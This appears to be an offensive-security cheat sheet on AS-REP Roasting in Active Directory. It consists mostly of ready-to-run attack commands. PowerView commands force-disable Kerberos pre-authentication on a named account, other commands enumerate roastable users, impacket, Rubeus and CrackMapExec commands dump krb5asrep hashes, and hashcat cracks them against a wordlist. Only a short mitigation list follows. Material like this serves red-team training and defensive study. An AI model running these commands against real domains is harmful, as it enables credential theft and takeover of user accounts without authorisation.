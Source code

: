 # AS-REP Roasting

## Overview

- Dump krbasrep5 hashes of user accounts without Kerberos pre-authentication
- Users do not have to be service accounts
- Must have pre-authentication disabled
- Can request any authentication data (encrypted TGT) for any user since KDC skips validation
- Crack dumped hash with hashcat

## Exploitation

### Force Disable Kerberos Preauth

```powershell
# Using PowerView 3.0/dev
# Enumerate permissions for RDPUsers on ACLS
Invoke-ACLScanner -ResolveGUIDS | ?{ $_.IdentityReferenceName -match "RDPUsers" }

# Disable preauth for user
Set-DomainObject -Identity Control572User -XOR @{useraccountcontrol=4194304} -Verbose
```

### Enumerate Users with Preauth Disabled

```powershell
# Using PowerView 3.0/dev
Get-DomainUser -PreauthNotRequired -Verbose | Select samaccountname

# Using AD Module
Get-ADUser -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth

# Query AS-REP-roastable users with impacket from Kali host
# Supply userlist and don't require authentication
GetNPUsers.py -dc-ip 10.10.149.145 -no-pass -usersfile users.txt -format hashcat -outputfile hashes.asrep spookysec.local/

# Dump KRBASREP5 hash for specific user and output in hashcat format to file
.\Rubeus.exe asreproast /user:control572user /format:hashcat /outfile:control572user.asrep

# Dump hashes with credentials using CrackMapExec
crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt

# Transfer hash onto attacker and insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
# Crack hash with hashcat
hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

## Mitigation

- Strong password policy
- Enable Kerberos Pre-Authentication

## Further Reading

- [iRedTeam: AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [XPN: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)
- [harmj0y: Roasting AS-REPs](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
